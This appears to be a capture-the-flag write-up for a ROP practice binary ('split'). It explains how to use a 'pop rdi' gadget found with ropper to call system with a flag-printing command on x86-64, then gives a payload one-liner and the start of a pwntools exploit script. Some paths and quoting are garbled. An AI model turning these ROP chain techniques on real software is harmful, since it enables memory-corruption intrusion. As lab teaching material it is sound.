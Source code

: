 > Unlike the **32_bit** structure where the **bin/cat/flag.txt_is_called_form_the_stack** because we were able to place the system call over the Instruction pointer then followed it with the command that we wanted on the stack which was the /bin/cat/flag.txt. In the **64_bit** structure we are not able to place it in the `RIP`, it is required to be in the `RDI` so we will need to get the /bin/cat/flag.txt onto that register. We will use the `pop rdi` gadget to do this.

We can look for an instruction that is in the **RDI** to pop a value from the stack to the register(**RDI**). We can use a tool called Ropper.
We can input `ropper -f` to get a list of all the gadgets and their addresses.
so we can search for the `pop rdi` gadget using ;
> ropper -f ./split64 --search "pop rdi"

With the  rop gadget we can create a chain of instructions that will pop the /bin/cat/flag.txt. So we will have to input it in first then the system call then the bin/cat

> python2 -c "print "A" * offset + **rop_gadget** + **system_call** + **/bin/cat/flag.txt** >> payload

Prints the flag with a segmentation fault.
---
We can break the system to see the inner workings of the system, `p system`
We can break at the system to check the **RDI**

pwntools script
---

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    # Start the exploit against the target
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './split'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Locate the functions/strings we need
pop_rdi_gadget = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
# ropper -f split --search "pop rdi; ret;"
```